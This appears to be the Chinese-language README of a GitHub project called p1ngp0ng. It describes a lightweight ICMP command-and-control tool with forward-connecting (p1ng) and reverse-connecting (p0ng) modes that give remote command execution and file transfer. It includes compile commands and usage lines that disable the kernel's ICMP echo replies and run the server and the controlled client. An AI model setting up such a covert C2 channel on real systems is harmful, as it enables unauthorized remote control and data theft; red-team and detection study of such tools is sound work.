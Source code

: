 # p1ngp0ng                
轻量级ICMP C2工具                
                
# 依赖                
Linux环境与GCC套件。                
                
# 功能：                
**p1ng：**                
p1ng，实现C2服务器正向连接被控端。目前实现了对客户端的命令控制与文件上传下载。明文传输，未加密。                
                
**p0ng：**                
p0ng，实现被控端反向连接C2服务器。目前实现了对客户端的命令控制与文件上传下载。明文传输，未加密。                
                
# 编译                
gcc p1ng.c -o p1ng                
gcc p0ng.c -lpthread -o p0ng                
                
# 使用                
**p1ng：**                
c2服务端：p1ng -S -c ${client_ip}                
c2被控端：echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all                
&nbsp;&nbsp;&nbsp;&nbsp;p1ng -C                
![main-panel](https://github.com/aplyc1a/p1ngp0ng/blob/master/logo.png)                
![p1ng-simple-usage](https://github.com/aplyc1a/p1ngp0ng/blob/master/p1ng_usage.png)                
                
**p0ng：**                
c2服务端：echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all         
&nbsp;&nbsp;&nbsp;&nbsp;p0ng -S                
c2被控端：                
p0ng -C -s ${server_ip}               
